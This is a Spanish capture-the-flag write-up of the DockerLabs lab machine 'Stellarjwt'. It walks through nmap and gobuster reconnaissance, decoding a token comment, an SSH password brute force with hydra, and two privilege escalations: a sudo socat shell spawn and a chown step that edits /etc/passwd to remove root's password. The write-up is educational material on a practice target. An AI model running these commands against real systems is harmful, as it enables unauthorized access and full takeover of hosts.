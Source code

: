 Hoy haremos la máquina "Stellarjwt" de [DockerLabs](https://dockerlabs.es).

Autor: [Alv-fh](https://github.com/Alv-fh)

Dificultad: Fácil

![dock](img/dock.png)

# RECONOCIMIENTO

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv 172.17.0.2 -oN escaneo.txt 
```

```ruby
# Nmap 7.95 scan initiated Fri Oct 25 16:02:00 2024 as: nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-10-25 16:02:00 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 13:fd:a1:b2:31:9d:ea:33:a1:43:af:44:20:3a:12:12 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEOj/HRDdBjMOnahF64+funtJuqp9p12aIRd36Qc/LhxP96Vzgbb3TBmmlikTqGqRVAlF24M53fdp9pABYc9Z5c=
|   256 a0:4f:c4:a9:00:af:cb:78:28:fd:94:c0:86:28:dc:a1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBQCVaYlLtT3rl2JLsXE13whHLmBXeknIoPXXK13Du5A
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: NASA Hackeada
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 25 16:02:08 2024 -- 1 IP address (1 host up) scanned in 8.62 seconds
```

Los puertos abiertos son los siguientes:

`22: OpenSSH`

`80: Apache httpd`

Ninguna de estas versiones son vulnerables a nada útil, por lo que continuaremos desde el navegador.

##### Puerto 80:

![80](img/80.png)

Al parecer tenemos una página relacionada con la nasa pero sin nada útil, por lo que procederemos a usar `gobuster` para ver si encontramos algo útil:

```css
gobuster dir -u http://172.17.0.2 -w <WORDLIST> -x php,html,txt
```

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 1905]
/universe             (Status: 301) [Size: 311] [--> http://172.17.0.2/universe/]
Progress: 106383 / 882240 (12.06%)
===============================================================
Finished
===============================================================
```

Tenemos un directorio "universe" al cual si accedemos veremos simplemente una imágen. Si miramos el código fuente veremos muchos comentarios sobre la historia de la nasa, pero en el final veremos un comentario que puede estar cifrado o encriptado de alguna manera:

![comment](img/comment.png)

Si a este lo metemos en [CyberChef](https://gchq.github.io/CyberChef/) con el operador "magic", nos dirá lo siguiente:

```css
{
    "sub": "1234567890",
    "user": "neptuno",
    "iat": 1516239022
}
```

Al parecer tenemos un usuario llamado "neptuno", y si recordamos la página del principio, decía la siguiente pregunta:

"¿Qué astrónomo alemán descubrió Neptuno?" 

esto si lo buscamos en google, nos dirá que fue "Johann Gottfried Galle", esto lo meteremos en un archivo llamado "pass.txt" con el siguiente contenido:

```css
Johann
Gottfried
Galle
```

# INTRUSIÓN

Teniendo esta información ejecutaremos `hydra` apuntando al ssh usando el usuario "neptuno" y de wordlist las posibles contraseñas que es el astrónomo:

```css
hydra -l neptuno -P pass.txt ssh://172.17.0.2
```

![hydra](img/hydra.png)

Como vemos, tenemos una contraseña para ssh, por lo cual nos conectaremos usando `ssh neptuno@172.17.0.2` con la contraseña encontrada.

# ESCALADA DE PRIVILEGIOS

### Neptuno

Si vamos a la home de este usuario, podremos ejecutar `ls -la` y ver los archivos ocultos, que entre ellos se encuentra el siguiente:

```css
.carta_a_la_NASA.txt
```

esta si la leemos, veremos el siguiente mensaje:

```css
Buenos días, quiero entrar en la NASA. Ya respondí las preguntas que me hicieron. Se las respondo de nuevo por aquí.

¿Qué significan las siglas NASA? -> National Aeronautics and Space Administration
¿En que año se fundo la NASA? -> 1958
XXXXXXXXXXXXXXXXXXXXX -> XXXXXXXXXX

Por favor, necesito entrar!!
```

La última pregunta nos dará la contraseña para el usuario "nasa", por lo cual escalamos ejecutando `su nasa` y poniendo su contraseña.

### Nasa

Ahora si ejecutamos `sudo -l` veremos lo siguiente:

```css
Matching Defaults entries for nasa on f683dd6fe6e7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User nasa may run the following commands on f683dd6fe6e7:
    (elite) NOPASSWD: /usr/bin/socat
```

como vemos podemos ejecutar el binario `socat` como el usuario "elite", por lo cual luego de buscar en [GTFOBins](https://gtfobins.github.io/) veo que se puede escalar con el siguiente comando:

```css
sudo -u elite socat stdin exec:/bin/bash
```

Una vez ejecutado hacemos el tratamiento de la TTy. [¿Como hacerlo?](https://github.com/Maciferna/DockerLabs/blob/main/tratamientoTTY.md)

### Elite

Nuevamente, si ejecutamos `sudo -l` veremos que podemos ejecutar el binario `chown` como root, este nos permite cambiar la propiedad de un archivo, teniendo en cuenta esto, lo que haremos será hacer que el directorio "/etc" sea de nuestra propiedad y que el archivo "/etc/passwd" también, luego, modificaremos este último eliminando la "x" del usuario root para que al ejecutar `su` podamos escalar a root sin necesidad de contraseña. Para hacerlo simplemente ejecutamos esto:

```css
sudo chown elite:elite /etc/ && sudo chown elite:elite /etc/passwd && echo "$(cat /etc/passwd | sed 's/root:x:/root::/g')" > /etc/passwd && su
```

Una vez ejecutado ya seremos root.

### Root

![root](img/root.png)

Gracias por leer.....
